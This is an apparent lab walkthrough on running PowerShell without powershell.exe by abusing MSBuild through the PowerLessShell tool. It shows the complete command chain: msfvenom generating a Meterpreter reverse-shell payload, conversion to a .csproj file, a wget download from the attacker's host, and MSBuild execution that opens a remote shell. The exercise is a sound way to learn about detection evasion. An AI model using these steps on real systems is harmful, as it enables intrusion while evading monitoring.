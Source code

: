 # No PowerShell

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for 
malicious activities. Therefore, Organisations started to monitor or block `powershell.exe` from being executed. As a 
result, adversaries find other ways to run PowerShell code without spawning it.

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an 
instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a 
platform for building Windows applications, to execute remote code.

## Lab

```text
$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
$ ls 
PowerLessShell
```

Generate a PowerShell payload:

```text
$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.18.22.77 LPORT=4444 -f psh-reflection > liv0ff.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 929 bytes
Final size of psh-reflection file: 3787 bytes
$ ls
liv0ff.ps1  PowerLessShell
```

Run the Metasploit framework to listen and wait for the reverse shell:

```text
$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4444 ;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4444 
[*] Started HTTPS reverse handler on https://AttackBox_IP:4444 
```

Change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run 
the PowerLessShell tool and set the source file to the one created with msfvenom:

```text
$ cd PowerLessShell
$ python2 PowerLessShell.py -type powershell -source ../liv0ff.ps1 -output liv0ff.csproj  
PowerLessShell Less is More
Mr.Un1k0d3r RingZer0 Team
-----------------------------------------------------------
Generating the msbuild file using include/template-powershell.csproj as the template
File 'liv0ff.csproj' created
Process completed
```

Transfer the output file to the target machine with `scp` or setting a web server to host the file on the attacking
machine and downloading the file using a browser.

```text
$ python3 -m http.server
```

On the target machine:

```text
PS C:\Users\thm\Desktop> wget http://10.18.22.77:8000/liv0ff.csproj -O liv0ff.csproj
```

Build the `.csproj` file and wait for the reverse shell:

```text
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
Microsoft (R) Build Engine version 4.8.3761.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 11/5/2022 9:31:42 PM.
```

On the attack machine:

```text
$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.18.22.77;set lport 4444;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.18.22.77
lport => 4444
[*] Started HTTPS reverse handler on https://10.18.22.77:4444
[!] https://10.18.22.77:4444 handling request from 10.10.60.49; (UUID: s5qzyosq) Without a database connected that payload UUID tracking will not work!
[*] https://10.18.22.77:4444 handling request from 10.10.60.49; (UUID: s5qzyosq) Staging x86 payload (176732 bytes) ...
[!] https://10.18.22.77:4444 handling request from 10.10.60.49; (UUID: s5qzyosq) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.18.22.77:4444 -> 10.10.60.49:50104) at 2022-11-05 21:32:09 +0000

meterpreter > 
```

The Desktop of the thm user on the target machine now has a flag.txt file.

## Resources

* [theonlykernel/atomic-red-team](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md)

